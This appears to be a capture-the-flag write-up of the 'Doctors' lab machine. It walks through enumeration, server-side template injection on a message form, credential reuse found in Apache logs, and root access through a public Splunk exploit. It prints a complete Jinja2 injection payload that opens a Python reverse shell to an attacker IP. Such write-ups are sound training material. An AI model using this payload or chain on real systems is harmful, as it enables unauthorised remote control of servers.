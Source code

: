 ```yaml
---
published: true
---
```

## Getting user.txt

Full nmap scan results (TCP):

![](https://github.com/sdcampbell/sdcampbell.github.io/raw/master/images/2021-02-02_12-47.png)

On the website on port 80, I found an email address, info@doctors.htb. I added the hostname to my /etc/hosts file.

After adding the site to my hosts file, and getting pissed off at Chrome browser which refused to show the site and kept sending me to a Verizon search page, I opened it in Firefox and found I was referred to the following site:

![](https://github.com/sdcampbell/sdcampbell.github.io/raw/master/images/2021-02-02_12-55.png)

I checked for SQL injection in the login form and didn't find any, so I clicked the link to "Sign Up Now".

The messages reflected whatever you put into the title and content field back to the page. I tested for XSS and SSTI (Server Side Template Injection), but didn't find anything right away. For now I'm going to run FFUF to find new directories, and maybe come back to testing the messaging form later.

FFUF found an additional directory, /archive but it was a blank page.

I entered another message as seen below:

![](https://github.com/sdcampbell/sdcampbell.github.io/raw/master/images/2021-02-02_13-21.png)

After entering the SSTI payloads in the above message, I went back to the /archive URL and found the following in the page source:

![](https://github.com/sdcampbell/sdcampbell.github.io/raw/master/images/2021-02-02_13-23.png)

It looks like we have template injection, either Jinja2 or Twig. The Tplmap tool won't work here since the detection is on a different URL from the injection point. I had some recent experience playing around with SSTI on pentesterlab.com. After some manual trial and error, I finally got a reverse shell using the following payload:

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.19\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

![](https://github.com/sdcampbell/sdcampbell.github.io/raw/master/images/2021-02-02_13-39.png)

Did you notice that the current user, web, is a member of the 'adm' group? Members of the adm group can usually view files in /var/log. I found a password in /var/log/apache2/backup file:

![](https://github.com/sdcampbell/sdcampbell.github.io/raw/master/images/2021-02-02_14-02.png)

I already know there is a user named 'shaun' by looking at the /home directory. I got the user.txt flag by su shaun and using the password found in the backup file:

![](https://github.com/sdcampbell/sdcampbell.github.io/raw/master/images/2021-02-02_14-04.png)

I then upgraded my shell using the following:

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

After looking for the obvious, includeing 'sudo -l' to see if I can use sudo, I decided to circle back to Splunk which was found earlier running on port 8089.

After doing some searching, I find the following exploit: https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2

Run the exploit:

![](https://github.com/sdcampbell/sdcampbell.github.io/raw/master/images/2021-02-02_14-56.png)

Catch a root shell:

![](https://github.com/sdcampbell/sdcampbell.github.io/raw/master/images/2021-02-02_14-57.png)
